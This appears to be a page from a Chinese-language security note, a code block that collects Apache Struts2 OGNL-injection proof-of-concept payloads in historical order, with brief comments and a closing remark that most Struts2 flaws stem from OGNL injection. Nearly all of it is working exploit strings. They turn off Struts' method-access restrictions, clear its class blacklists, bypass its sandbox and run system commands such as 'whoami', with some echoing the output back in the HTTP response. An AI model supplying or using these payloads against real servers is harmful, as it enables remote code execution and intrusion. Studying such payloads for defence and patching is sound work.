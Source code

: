```java
('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)
&
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
&
('\u0023mycmd\u003d\'calc\'')(bla)(bla)
&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)

// 或者一些基于上面思想的带回显POC
('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)
&
('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)
&
('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)
&
('\u0023mycmd\u003d\'whoami\'')(bla)(bla)
&
('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)
&
(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))
&
(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))
&
(C)(('\u0023mydat.readFully(\u0023myres)')(bla))
&
(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))
&
('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)
&
(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))

// 后续还出现了利用OgnlUtil关闭沙箱的POC
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

// 后续对于沙箱绕过做了增黑名单防护，但是紧接着pwntester就绕过了
%{('Powered_by_Unicode_Potats0,enjoy_it').(#UnicodeSec = #application['org.apache.tomcat.InstanceManager']).(#potats0=#UnicodeSec.newInstance('org.apache.commons.collections.BeanMap')).(#stackvalue=#attr['struts.valueStack']).(#potats0.setBean(#stackvalue)).(#context=#potats0.get('context')).(#potats0.setBean(#context)).(#sm=#potats0.get('memberAccess')).(#emptySet=#UnicodeSec.newInstance('java.util.HashSet')).(#potats0.setBean(#sm)).(#potats0.put('excludedClasses',#emptySet)).(#potats0.put('excludedPackageNames',#emptySet)).(#exec=#UnicodeSec.newInstance('freemarker.template.utility.Execute')).(#cmd={'whoami'}).(#res=#exec.exec(#cmd))}
```

Struts2的漏洞中，除了Xstream反序列化，都是由于Ognl表达式注入造成的。
